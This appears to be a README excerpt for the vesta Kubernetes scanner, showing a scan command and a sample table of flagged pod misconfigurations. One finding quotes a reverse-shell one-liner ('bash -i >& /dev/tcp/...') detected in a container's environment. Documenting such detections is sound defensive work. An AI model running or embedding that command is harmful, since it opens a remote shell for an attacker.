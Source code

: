 Example of Kubernetes config scan, start vesta:

```bash
vesta analyze k8s
```

Output:

```bash
2022/11/29 23:15:59 Start analysing
2022/11/29 23:15:59 Getting docker server version
2022/11/29 23:15:59 Getting kernel version

Detected 4 vulnerabilities

Pods:
+----+--------------------------------+--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
| ID |           POD DETAIL           |             PARAM              |             VALUE              |         TYPE          | SEVERITY |          DESCRIPTION           |
+----+--------------------------------+--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|  1 | Name: vulntest | Namespace:    | sidecar name: vulntest |       | true                           | Pod                   | critical | There has a potential          |
|    | default | Status: Running |    | Privileged                     |                                |                       |          | container escape in privileged |
|    | Node Name: docker-desktop      |                                |                                |                       |          | module.                        |
+    +                                +--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|    |                                | sidecar name: vulntest |       | Token:Password123456           | Sidecar EnvFrom       | high     | Sidecar envFrom ConfigMap has  |
|    |                                | env                            |                                |                       |          | found weak password:           |
|    |                                |                                |                                |                       |          | 'Password123456'.              |
+    +                                +--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|    |                                | sidecar name: sidecartest |    | MALWARE: bash -i >&            | Sidecar Env           | high     | Container 'sidecartest' finds  |
|    |                                | env                            | /dev/tcp/10.0.0.1/8080 0>&1    |                       |          | high risk content(score:       |
|    |                                |                                |                                |                       |          | 0.91 out of 1.0), which is a   |
|    |                                |                                |                                |                       |          | suspect command backdoor.      |
+----+--------------------------------+--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|  2 | Name: vulntest2 | Namespace:   | sidecar name: vulntest2 |      | CAP_SYS_ADMIN                  | capabilities.add      | critical | There has a potential          |
|    | default | Status: Running |    | capabilities                   |                                |                       |          | container escape in privileged |
|    | Node Name: docker-desktop      |                                |                                |                       |          | module.                        |
+    +                                +--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|    |                                | sidecar name: vulntest2 |      | true                           | kube-api-access-lcvh8 | critical | Mount service account          |
|    |                                | automountServiceAccountToken   |                                |                       |          | and key permission are         |
|    |                                |                                |                                |                       |          | given, which will cause a      |
|    |                                |                                |                                |                       |          | potential container escape.    |
```